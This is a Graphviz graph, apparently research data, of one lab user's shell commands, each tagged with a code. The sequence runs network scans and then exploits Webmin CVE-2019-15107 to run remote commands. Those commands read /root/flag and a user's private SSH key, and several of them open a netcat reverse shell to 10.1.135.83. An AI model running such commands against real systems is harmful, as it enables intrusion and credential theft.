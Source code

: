 // creating graph for user: 85
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	1 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	2 [label="clear U"]
	3 [label="ls A10 "]
	4 [label="nmap A0 A1 "]
	5 [label="ifconfig U"]
	6 [label="nmap 192.168.128.0 A0 A1 "]
	7 [label="nmap 192.168.128.0/24 A0 A1 "]
	8 [label="ifconfig U"]
	9 [label="nmap 10.1.135.0/24 A0 A1 "]
	10 [label="nmap 10.1.135.0/ A0 A1 "]
	11 [label="nmap 10.1.135.0/16 A0 A1 "]
	12 [label="ping 172.18.1.5 U"]
	13 [label="nmap 172.18.1.5 M0 "]
	14 [label="nmap -sV 172.18.1.5 M1 "]
	15 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 A10 "]
	16 [label="curl http://172.18.1.5:10000/password_change.cgi -d 'user=root&pam=&expired=2 A4 "]
	17 [label="git clone https://github.com/jas502n/CVE-2019-15107 U"]
	18 [label="ls A10 "]
	19 [label="cd CVE-2019-15107/ U"]
	20 [label="ls A10 "]
	21 [label="python CVE_2019_15107.py A13 "]
	22 [label="cat README.md A1 A9 A11 A12 A17 "]
	23 [label="python CVE_2019_15107.py https://172.18.1.5:10000 A13 "]
	24 [label="python CVE_2019_15107.py https://172.18.1.5:10000 id A13 "]
	25 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	26 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	27 [label="ls /root A10 "]
	28 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root A10 A13 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ A10 A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; pwd A10 A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; pwd A13 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls A10 A13 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/; ls -al A10 A13 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/; A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ pwd; A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls -al /root/; A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls'; A10 A13 "]
	39 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; ls -al'; A10 A13 "]
	40 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'cd /root; pwd'; A13 "]
	41 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'ls'; A10 A13 "]
	42 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd'; A13 "]
	43 [label="python CVE_2019_15107.py http://172.18.1.5:10000 bash -c 'pwd' A13 "]
	44 [label="python CVE_2019_15107.py http://172.18.1.5:10000 /bin/bash -c 'echo anal' A13 "]
	45 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	46 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root A13 "]
	47 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & ls A10 A13 "]
	48 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	49 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ & echo hello A13 "]
	50 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ & echo hello' A13 "]
	51 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && echo hello' A13 "]
	52 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	53 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ && pwd A13 "]
	54 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat /root/flag A1 A9 A11 A12 A13 A17 "]
	55 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	56 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cd /root/ A13 "]
	57 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	58 [label="python CVE_2019_15107.py http://172.18.1.5:10000 touch file A13 "]
	59 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls /root/ > file A10 A13 "]
	60 [label="python CVE_2019_15107.py http://172.18.1.5:10000 cat file A1 A9 A11 A12 A13 A17 "]
	61 [label="python CVE_2019_15107.py http://172.18.1.5:10000 ls A10 A13 "]
	62 [label="ls A10 "]
	63 [label="python CVE_2019_15107.py http://172.18.1.5:10000 pwd A13 "]
	64 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	65 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /root/WARNING-READ-ME.txt' M9 "]
	66 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find *.txt' A10 A13 "]
	67 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/ && pwd' A13 "]
	68 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root/; pwd' A13 "]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /root; pwd' A13 "]
	70 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A10 A13 "]
	71 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	72 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alive' A10 A13 "]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/alice' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/bob' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/eve' M10 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' V10 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' M12 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/.ssh' V10 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' V12 "]
	80 [label="ls A10 "]
	81 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	82 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian' A10 A13 "]
	83 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian' A10 A13 "]
	84 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible' A10 A13 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home/debian/.ansible/tmp' A10 A13 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /' A10 A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /root' A10 A13 "]
	88 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / *.txt' A10 A13 "]
	89 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'find -L / -name *.txt' V10 "]
	90 [label="ls A10 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /root' A10 A13 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /' A10 A13 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -al /home' A10 A13 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	96 [label="ping 172.18.1.5 U"]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'pwd' A13 "]
	98 [label="nc -l 8080 U"]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	100 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	101 [label="ls A10 "]
	102 [label="cd CVE-2019-15107/ U"]
	103 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	104 [label="ls A10 "]
	105 [label="cd CVE-2019-15107/ U"]
	106 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'nc -e /bin/sh 10.1.135.83 8080' A13 "]
	107 [label="aaaaaaaaaaa U"]
	108 [label="ive had enough U"]
	109 [label="help U"]
	110 [label="please U"]
	111 [label="i beg you U"]
	112 [label="to je tak na picu lmao U"]
	113 [label="cd .. U"]
	114 [label="ls A10 "]
	115 [label="python ssh2john.py M13 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	rankdir=LR
}
